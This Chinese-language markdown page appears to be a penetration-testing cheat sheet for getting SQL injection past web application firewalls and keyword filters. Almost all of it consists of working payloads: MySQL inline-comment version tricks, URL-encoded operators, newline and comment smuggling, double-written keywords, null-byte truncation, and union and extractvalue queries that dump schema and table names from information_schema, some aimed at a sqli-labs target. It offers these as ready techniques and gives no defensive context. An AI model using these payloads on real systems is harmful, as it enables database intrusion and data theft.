






### SQL注入绕过

```
1、使用注释非注释/*!Num*/
Num这个数字是五位数字,如果当前数据库版本大于这串数字，此时/*!后面的内容不再被当做注释，否则任然被当做注释

2、使用小于mysql版本的五位数字 放到非注释里面

3、/*%!a*/ 通过fuzz尝试出来的 

4、变量替换
Payload a=/*&id=-1' union select 1,2,user() --+&b=*/

使用url对 && 和 | | 编码	 ||: %7c%7c  &&: %26%26

1' %26%26 True-- + 

1' %26%26 false-- + 

1' %7c%7c True-- + 


%00截断、大小写、双写
内联注释:
/*!关键字*/、
/*!5位大于mysql版本号的数字+关键字*/
%23注释、%0a换行  %23 xxx %0a select xx
-- +（）	(代替空格)
对于D盾，一些html实体编码能够直接绕过


URL编码/base64编码

order /*%!asda*/by 3

+ 代替 空格  还有0x00 ,%0D等一些无意义十六进制字符和url编码

%23 代替 #（注释


%00截断 

 ?id=9999' union(select(1),2,3);%00 'limit 0,1 红字部分不会被带到数据库中

当无法制造空格 就用()把 select from where 后面的参数包裹住	类似于子查询

?id=9999' union (select(1),2,group_concat(schema_name)from(infoorrmation_schema.schemata))

 

?id=9999'union(select(1),2,group_concat(table_name)from(information_schema.tables)where(table_schema='security'))

?id=1')and(select(select(ord(mid(group_concat(schema_name),1,1)))from(information_schema.schemata))=105)


?id=1' %26%26extractvalue(1,concat(0x7e,(select(group_concat(schema_name))from(information_schema.schemata)),0x7e))%26%26'1'='1


/*!关键字*/ 	内联注释, 关键字并不会被注释

/*! 5位数字关键字*/  如果5位数字大于mysql版本号, 注释才生效

 例: union /*!12345select*/ 

 

union/*%!wsad*/select

 

关键字/*!99999aas*/()
```


 

```
-- %0a 换行绕过

?id=-1' union -- bihuo.cn%0aselect%0a1,user/*!99999sina.com*/(),3 -- + 

?id=-1 union %23kawasida %0a select 1,2,3 -- + 								%23 == #
```


 

 

```
遇到把关键字过滤为空 ,可以双写绕过 ,多次过滤就多次嵌套,如果只是一个关键字被过滤为空: 

通过union包裹select :	uniselecton

select * from users where id=1 ununionion selselectect 1,2,3;

多写:	seleSelselectectct

 

多参数包含			可以绕过对information_schema 库的过滤
```


 

--skip 指定不注入那些参数,除去a,c  只剩下 id

 

**这个选项是: 是否对自定义的参数(*)注入**

**选择 N ; 带*的参数就不会注入,那只剩下了 id**

 

 

```
替换编码

select * from users where id=1 union%0Aselect%0A1,2,3;	 	//换行符 

select * from users where id=1 %75nion select 1,2,3; 	//url编码对关键字

 

 /union\s+select/i

union%09union%09selectselect  双写

 

缓冲区溢出

select * from users where id=1 and (select 1)=(Select 0xA*1000) uNiOn SeLeCt 1,2,version();

 

0xA*1000 指的是0XA后面的 "A" 重复1000次

一般来说对应用软件构成缓冲区溢出都需要比较大的测试长度

这里1000仅供参考，在一些情况下也可以更短
```

 

### 当注释符号被过滤的闭合问题

```
[?id=999' uniOn SeleCt](http://www.sqli.com/Less-27/?id=99' uniOn SeleCt) 1,2,'3  	  '3 和后面的limit 闭合  1,2,3' 也可以

因为-也被过滤  id值要为假,就输入一个不存在的值

使用参数2 进行注入

?id=999' union SeleCt 1,(sElect group_concat(table_name) from information_schema.tables where table_schema=database()),'3  

?id=999' union SeleCt 1,2,(sElect group_concat(table_name) from information_schema.tables where table_schema=database()) and '1'='1 


%00截断 

?id=9999' union(select(1),2,3);%00 'limit 0,1 红字部分不会被带到数据库中
```

**可以对 数据库名 和 表名 使用十六进制编码,防止过滤 ' 单引号**

​		

